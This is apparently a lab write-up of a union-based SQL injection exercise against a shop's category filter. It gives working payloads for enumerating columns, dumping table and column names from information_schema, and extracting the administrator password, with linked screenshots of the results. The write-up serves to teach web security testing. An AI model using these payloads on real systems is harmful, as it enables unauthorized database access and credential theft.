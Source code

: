 ### We start off with column enumeration
```
/filter?category=Accessories' ORDER BY 1-- -                                   #200 OK
/filter?category=Accessories' ORDER BY 2-- -                                   #200 OK
/filter?category=Accessories' ORDER BY 3-- -                                   #Error response
```

### Next we dump all the table names
```

/filter?category=Accessories' union select table_name,null from information_schema.tables--

```

#### Result
![image](https://user-images.githubusercontent.com/86168235/125630729-1d12e6e6-c8d3-4ca2-b7cf-5df24628dced.png)



### So we dump all the columns from `users_elsufr`(yours maybe different) table
```

/filter?category=Accessories' union select column_name,null from information_schema.columns where table_name='users_elsufr'--

```

#### Result
![image](https://user-images.githubusercontent.com/86168235/125631182-9415e97a-4b14-45df-ac86-e46c1f202005.png)


### Now as we know the username and password columns, we dump the `administrator` password
```

/filter?category=Accessories' union select password_fqwflo,null from users_elsufr where username_hjeqam='administrator'--

```

#### Result
![image](https://user-images.githubusercontent.com/86168235/125631974-675860d6-e634-41f5-8ce2-60aee7bce0f6.png)
